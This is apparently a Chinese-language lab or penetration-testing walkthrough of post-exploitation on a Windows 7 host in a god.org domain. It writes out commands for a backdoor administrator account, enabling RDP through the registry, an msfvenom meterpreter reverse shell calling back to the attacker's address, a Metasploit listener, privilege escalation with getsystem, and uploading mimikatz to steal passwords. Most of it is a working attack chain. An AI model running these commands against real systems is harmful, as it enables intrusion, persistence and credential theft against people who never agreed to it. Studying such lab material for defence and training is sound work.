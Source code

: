 ping owa.god.org
=> 确定 192.168.52.138为域控


win7本地主机创建用户，加入管理员组
net user alice Ali12345 /add

net localgroup administrators alice /add

尝试远程桌面登录
检查 3389端口是否开启
netstat -ano | find "3389"

未开启 用以下命令开启
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

windows本机尝试远程连接失败

## 后渗透
msf上线
生成 exe木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.72.128 LPORT=2333 -f exe > shell.exe 

蚁剑upload到 C:/Windows/Temp

开启监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 2333
set lhost 192.168.72.128
exploit -j


win7运行shell.exe

sessions 1 上线

meterpreter 提权
由于原本就是administrator所以很容易提权 (windows vista之前没有UAC机制 不需要bypassUAC)
getuid
getsystem
getuid

成功提权至SYSTEM最高权限

此时就可以关闭防火墙实现远程桌面连接

run post/windows/manage/enable_rdp

nmap扫3389端口
nmap -p3389 192.168.72.129 
发现已经开启

rdesktop 192.168.72.129
可以用先前加入管理员组的 alice Ali12345 登陆


但没必要 我们尝试用mimikatz抓取密码
kali meterpreter上传mimikatz.exe
